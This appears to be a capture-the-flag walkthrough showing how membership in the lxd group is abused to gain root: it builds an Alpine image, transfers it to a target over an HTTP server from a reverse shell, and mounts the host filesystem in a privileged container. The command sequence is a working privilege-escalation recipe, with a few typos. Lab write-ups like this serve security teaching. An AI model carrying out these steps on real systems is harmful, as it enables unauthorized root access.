


Linux Containers
https://linuxcontainers.org/lxd/introduction/
LXD is a management API for dealing with LXC containers on Linux systems. It will
perform tasks for any members of the local lxd group. It does not make an effort to
match the permissions of the calling user to the function it is asked to perform.
Digging a little deeper into LXD and searching for the keywords LXD Exploit on Google reveals the
following information.
https://www.hackingarticles.in/lxd-privilege-escalation/
A member of the local “lxd” group can instantly escalate the privileges to root on the
host operating system. This is irrespective of whether that user has been granted sudo
rights and does not require them to enter their password. The vulnerability exists even
with the LXD snap package.
This is exactly what we need and this HackTricks page describes the whole exploitation process step by step.
The exploit works by making use of the Alpine image, which is a lightweight Linux distribution based on busy
box. After this distribution is downloaded and built locally, an HTTP server is used to upload it to the remote
system. The image is then imported into LXD and it is used to mount the Host file system with root
privileges.
Let's begin by installing the Go programming language as well as some other required packages.
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
Then we must clone the LXC Distribution Builder and build it.
git clone https://github.com/lxc/distrobuilder
cd distrobuilder
make
After the build is complete let's download the Alpine YAML file and build it.
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
Once the build is done lxd.tar.xz and rootlet.squashfs will be available in the same folder.

We will now have to transfer these files to the target system through the usage of a Python HTTP server.
Run the following command locally on the same folder.
python3 -m http.server 8000
Then switch back to the reverse shell on the target system and download the files.
wget http://{local_IP}:8000/lxd.tar.xz
wget http://{local_IP}:8000/rootfs.squashfs
Note: As shown previously the local IP can be acquired through the ifconfig command line utility.
Once the transfer finishes, use the ls command to confirm the files transferred successfully.

The next step is to import the image using the LXC command-line tool.
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
To verify that the image has been successfully imported we can list the LXD images.
lxc image list

Alpine is correctly shown in the image list. We must now set the security.privileged flag to true, so that
the container has all of the privileges that the root file system has. We will also mount the root file system
on the container in the /mnt folder.
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true

inally we can start the container and start a root shell inside it.
lxc start privesc
lxc exec privesc /bin/sh

To access the root flag, we can navigate to the /mnt/root/root folder.